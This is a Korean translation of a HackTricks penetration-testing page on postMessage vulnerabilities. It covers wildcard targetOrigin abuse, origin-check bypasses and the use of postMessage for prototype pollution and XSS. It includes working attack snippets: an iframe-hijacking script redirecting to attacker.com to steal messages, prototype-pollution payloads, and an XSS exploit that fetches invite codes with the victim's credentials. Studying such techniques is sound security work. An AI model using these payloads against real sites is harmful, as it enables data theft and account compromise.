 # PostMessage 취약점

## PostMessage 취약점

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 AWS 해킹을 처음부터 전문가까지 배워보세요<strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고하거나 HackTricks를 PDF로 다운로드**하려면 [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스웨그**](https://peass.creator-spring.com)를 얻으세요.
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요. 독점적인 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션입니다.
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)를 **팔로우**하세요.
* **HackTricks**와 **HackTricks Cloud** github 저장소에 PR을 제출하여 여러분의 해킹 기교를 공유하세요.

</details>

## **PostMessage** 보내기

**PostMessage**는 다음 함수를 사용하여 메시지를 보냅니다:
```bash
targetWindow.postMessage(message, targetOrigin, [transfer]);

# postMessage to current page
window.postMessage('{"__proto__":{"isAdmin":True}}', '*')

# postMessage to an iframe with id "idframe"
<iframe id="idframe" src="http://victim.com/"></iframe>
document.getElementById('idframe').contentWindow.postMessage('{"__proto__":{"isAdmin":True}}', '*')

# postMessage to an iframe via onload
<iframe src="https://victim.com/" onload="this.contentWindow.postMessage('<script>print()</script>','*')">

# postMessage to popup
win = open('URL', 'hack', 'width=800,height=300,top=500');
win.postMessage('{"__proto__":{"isAdmin":True}}', '*')

# postMessage to an URL
window.postMessage('{"__proto__":{"isAdmin":True}}', 'https://company.com')

# postMessage to iframe inside popup
win = open('URL-with-iframe-inside', 'hack', 'width=800,height=300,top=500');
## loop until win.length == 1 (until the iframe is loaded)
win[0].postMessage('{"__proto__":{"isAdmin":True}}', '*')
```
**targetOrigin**은 '\*' 또는 _https://company.com_과 같은 URL일 수 있습니다.\
**두 번째 시나리오**에서는 **메시지를 해당 도메인으로만 보낼 수 있습니다**(창 객체의 출처가 다른 경우에도 해당됨).\
와일드카드를 사용하면 **메시지를 어떤 도메인으로든 보낼 수 있으며**, 창 객체의 출처로 보내집니다.

### iframe 및 **targetOrigin**에서의 와일드카드 공격

[**이 보고서**](https://blog.geekycat.in/google-vrp-hijacking-your-screenshots/)에서 설명한대로, **iframed**될 수 있는 페이지(X-Frame-Header 보호 없음)를 찾고, 와일드카드(\*)를 사용하여 **postMessage**를 통해 **민감한** 메시지를 보내는 경우, **iframe**의 **출처**를 **수정**하여 **민감한** 메시지를 자신이 제어하는 도메인으로 **유출**할 수 있습니다.\
페이지가 iframed될 수 있지만 **targetOrigin**이 **URL로 설정되어 있고 와일드카드가 아닌 경우**, 이 **트릭은 작동하지 않습니다**.
```markup
<html>
<iframe src="https://docs.google.com/document/ID" />
<script>
setTimeout(exp, 6000); //Wait 6s

//Try to change the origin of the iframe each 100ms
function exp(){
setInterval(function(){
window.frames[0].frame[0][2].location="https://attacker.com/exploit.html";
}, 100);
}
</script>
```
## addEventListener 악용

**`addEventListener`**은 JS에서 **`postMessages`를 기대하는 함수**를 선언하는 데 사용됩니다.\
다음과 유사한 코드가 사용될 것입니다:
```javascript
window.addEventListener("message", (event) => {
if (event.origin !== "http://example.org:8080")
return;

// ...
}, false);
```
이 경우 코드가 하는 **첫 번째 작업**은 **origin을 확인하는 것**입니다. 이는 페이지가 받은 정보로 **민감한 작업**(예: 비밀번호 변경)을 수행할 경우에 특히 중요합니다. **만약 origin을 확인하지 않으면 공격자는 희생자로부터 임의의 데이터를 이 엔드포인트로 보내 비밀번호를 변경**할 수 있습니다(이 예시에서).

### 열거

현재 페이지에서 **이벤트 리스너를 찾기 위해** 다음을 수행할 수 있습니다:

* JS 코드에서 `window.addEventListener`와 `$(window).on`(_JQuery 버전_)을 **검색**합니다.
* 개발자 도구 콘솔에서 다음을 **실행**합니다: `getEventListeners(window)`

![](<../../.gitbook/assets/image (618) (1) (1).png>)

* 브라우저의 개발자 도구에서 _Elements --> Event Listeners_로 **이동**합니다.

![](<../../.gitbook/assets/image (617).png>)

* [**https://github.com/benso-io/posta**](https://github.com/benso-io/posta)나 [https://github.com/fransr/postMessage-tracker](https://github.com/fransr/postMessage-tracker)와 같은 **브라우저 확장 프로그램**을 사용합니다. 이 브라우저 확장 프로그램은 모든 메시지를 **가로채서 보여줍니다**.

### Origin 확인 우회

- **`event.isTrusted`** 속성은 진짜 사용자 동작으로 생성된 이벤트에 대해서만 `True`를 반환하므로 안전하다고 간주됩니다. 올바르게 구현된 경우 우회하기 어렵지만, 보안 검사에서의 중요성은 주목할 만합니다.

- PostMessage 이벤트에서 origin 유효성 검사를 위해 **`indexOf()`**를 사용하는 것은 우회될 수 있습니다. 이 취약점을 설명하는 예시는 다음과 같습니다:

```javascript
("https://app-sj17.marketo.com").indexOf("https://app-sj17.ma")
```

- `String.prototype.search()`의 **`search()`** 메서드는 정규식을 위해 사용되는 것이며, 문자열에는 사용되지 않습니다. 정규식 이외의 것을 전달하면 암묵적으로 정규식으로 변환되어 메서드가 잠재적으로 보안에 취약해집니다. 이는 정규식에서 마침표(.)가 와일드카드로 작동하기 때문에 특수하게 만들어진 도메인으로 유효성 검사를 우회할 수 있기 때문입니다. 예를 들면 다음과 같습니다:

```javascript
"https://www.safedomain.com".search("www.s.fedomain.com")
```

- `search()`와 유사한 **`match()`** 함수는 정규식을 처리합니다. 정규식이 잘못 구성된 경우 우회될 수 있습니다.

- **`escapeHtml`** 함수는 문자를 이스케이프하여 입력을 살균하는 것을 목적으로 합니다. 그러나 이 함수는 새로운 이스케이프된 객체를 생성하지 않고 기존 객체의 속성을 덮어씁니다. 이 동작은 악용될 수 있습니다. 특히, 객체의 속성이 `hasOwnProperty`를 인식하지 않는다면 `escapeHtml`은 예상대로 작동하지 않을 것입니다. 아래의 예시에서 이를 확인할 수 있습니다:

- 예상된 실패:
```javascript
result = u({
message: "'\"<b>\\"
});
result.message // "&#39;&quot;&lt;b&gt;\"
```

- 이스케이프 우회:
```javascript
result = u(new Error("'\"<b>\\"));
result.message; // "'"<b>\"
```

이 취약점의 문맥에서 `File` 객체는 읽기 전용 `name` 속성으로 인해 취약점이 있습니다. 이 속성은 템플릿에서 사용될 때 `escapeHtml` 함수에 의해 살균되지 않으므로 보안 위험을 야기할 수 있습니다.

- JavaScript의 `document.domain` 속성은 스크립트에 의해 도메인을 단축시킬 수 있으며, 동일한 상위 도메인 내에서 보다 유연한 동일 출처 정책 적용을 가능하게 합니다.

### e.origin == window.origin 우회

%%%<iframe sandbox="allow-scripts" src="https://example.com/iframe.php">%%%를 사용하여 **샌드박스 iframe**에 웹 페이지를 임베딩할 때, iframe의 origin은 `null`로 설정됩니다. 이는 **샌드박스 속성**과 보안 및 기능에 대한 영향을 고려할 때 특히 중요합니다.

샌드박스 속성에서 **`allow-popups`**를 지정하면 iframe 내에서 열린 팝업 창은 부모의 샌드박스 제한을 상속합니다. 이는 **`allow-popups-to-escape-sandbox`** 속성이 포함되지 않은 경우 팝업 창의 origin도 마찬가지로 `null`로 설정되어 iframe의 origin과 일치합니다.

결과적으로 이러한 조건에서 팝업이 열리고 iframe에서 팝업으로 메시지가 전송되는 경우, 보내는 쪽과 받는 쪽의 origin이 모두 `null`로 설정됩니다. 이 상황에서 **`e.origin == window.origin`**은 true(`null == null`)로 평가됩니다. 왜냐하면 iframe과 팝업은 모두 `null`의 동일한 origin 값을 공유하기 때문입니다.

자세한 정보는 다음을 **참조**하세요:

{% content-ref url="bypassing-sop-with-iframes-1.md" %}
[bypassing-sop-with-iframes-1.md](bypassing-sop-with-iframes-1.md)
{% endcontent-ref %}

### e.source 우회

메시지가 스크립트가 수신 대기 중인 동일한 창에서 왔는지 확인할 수 있습니다(특히 **브라우저 확장 프로그램의 콘텐츠 스크립트**의 경우 메시지가 동일한 페이지에서 전송되었는지 확인하기 위해 특히 흥미로운 경우):
```javascript
// If it’s not, return immediately.
if( received_message.source !== window ) {
return;
}
```
**`e.source`** 메시지의 강제로 null 값을 만들 수 있습니다. 이를 위해 **`postMessage`**를 보내고 즉시 삭제되는 **iframe**을 생성합니다.

자세한 정보는 다음을 참조하세요:

{% content-ref url="bypassing-sop-with-iframes-2.md" %}
[bypassing-sop-with-iframes-2.md](bypassing-sop-with-iframes-2.md)
{% endcontent-ref %}

### X-Frame-Header 우회

이러한 공격을 수행하기 위해서는 이상적으로 피해자 웹 페이지를 `iframe` 안에 넣을 수 있어야 합니다. 그러나 `X-Frame-Header`와 같은 일부 헤더는 이러한 동작을 방지할 수 있습니다.\
이러한 시나리오에서는 여전히 덜 은밀한 공격을 사용할 수 있습니다. 취약한 웹 애플리케이션에 새 탭을 열고 통신할 수 있습니다:
```markup
<script>
var w=window.open("<url>")
setTimeout(function(){w.postMessage('text here','*');}, 2000);
</script>
```
### 메인 페이지 차단을 통한 자식에게 보내는 메시지 도용

다음 페이지에서는 **메인** 페이지를 **차단**하여 데이터를 보내기 전에 **자식 iframe**로 보내는 **민감한 postmessage 데이터**를 도용하는 방법을 볼 수 있습니다. 그리고 **자식의 XSS를 악용**하여 데이터가 수신되기 전에 데이터를 **유출**합니다:

{% content-ref url="blocking-main-page-to-steal-postmessage.md" %}
[blocking-main-page-to-steal-postmessage.md](blocking-main-page-to-steal-postmessage.md)
{% endcontent-ref %}

### iframe 위치 수정을 통한 메시지 도용

X-Frame-Header가 없는 웹 페이지에 다른 iframe을 포함시킬 수 있다면, **해당 자식 iframe의 위치를 변경**할 수 있습니다. 따라서, 만약 **와일드카드**를 사용하여 보내진 **postmessage**를 수신 중인 경우, 공격자는 그 iframe의 **출처(origin)**를 자신이 **제어하는 페이지**로 **변경**하여 메시지를 **도용**할 수 있습니다:

{% content-ref url="steal-postmessage-modifying-iframe-location.md" %}
[steal-postmessage-modifying-iframe-location.md](steal-postmessage-modifying-iframe-location.md)
{% endcontent-ref %}

### Prototype Pollution 및/또는 XSS로의 postMessage

`postMessage`를 통해 전송된 데이터가 JS에 의해 실행되는 시나리오에서는, **페이지를 iframe**으로 만들고 `postMessage`를 통해 **prototype pollution/XSS**를 악용하여 exploit을 전송할 수 있습니다.

[https://jlajara.gitlab.io/web/2020/07/17/Dom\_XSS\_PostMessage\_2.html](https://jlajara.gitlab.io/web/2020/07/17/Dom\_XSS\_PostMessage\_2.html)에서 **매우 잘 설명된 XSS**의 예시를 확인할 수 있습니다.

`postMessage`를 통해 **Prototype Pollution을 악용한 후 XSS**를 악용하는 exploit의 예시:
```html
<html>
<body>
<iframe id="idframe" src="http://127.0.0.1:21501/snippets/demo-3/embed"></iframe>
<script>
function get_code() {
document.getElementById('iframe_victim').contentWindow.postMessage('{"__proto__":{"editedbymod":{"username":"<img src=x onerror=\\\"fetch(\'http://127.0.0.1:21501/api/invitecodes\', {credentials: \'same-origin\'}).then(response => response.json()).then(data => {alert(data[\'result\'][0][\'code\']);})\\\" />"}}}','*');
document.getElementById('iframe_victim').contentWindow.postMessage(JSON.stringify("refresh"), '*');
}

setTimeout(get_code, 2000);
</script>
</body>
</html>
```
**더 많은 정보**를 위해:

* [**프로토타입 오염**](../deserialization/nodejs-proto-prototype-pollution/)에 대한 페이지 링크
* [**XSS**](../xss-cross-site-scripting/)에 대한 페이지 링크
* [**클라이언트 측 프로토타입 오염으로 인한 XSS**](../deserialization/nodejs-proto-prototype-pollution/#client-side-prototype-pollution-to-xss)에 대한 페이지 링크

## 참고 자료

* [https://jlajara.gitlab.io/web/2020/07/17/Dom\_XSS\_PostMessage\_2.html](https://jlajara.gitlab.io/web/2020/07/17/Dom\_XSS\_PostMessage\_2.html)
* [https://dev.to/karanbamal/how-to-spot-and-exploit-postmessage-vulnerablities-36cd](https://dev.to/karanbamal/how-to-spot-and-exploit-postmessage-vulnerablities-36cd)
* 연습용: [https://github.com/yavolo/eventlistener-xss-recon](https://github.com/yavolo/eventlistener-xss-recon)

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 **제로에서 영웅까지 AWS 해킹 배우기**</summary>

HackTricks를 지원하는 다른 방법:

* HackTricks에서 **회사 광고를 보거나 HackTricks를 PDF로 다운로드**하려면 [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스웨그**](https://peass.creator-spring.com)를 얻으세요.
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요. 독점적인 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션입니다.
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)를 **팔로우**하세요.
* **HackTricks**와 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 PR을 제출하여 여러분의 해킹 기술을 공유하세요.

</details>
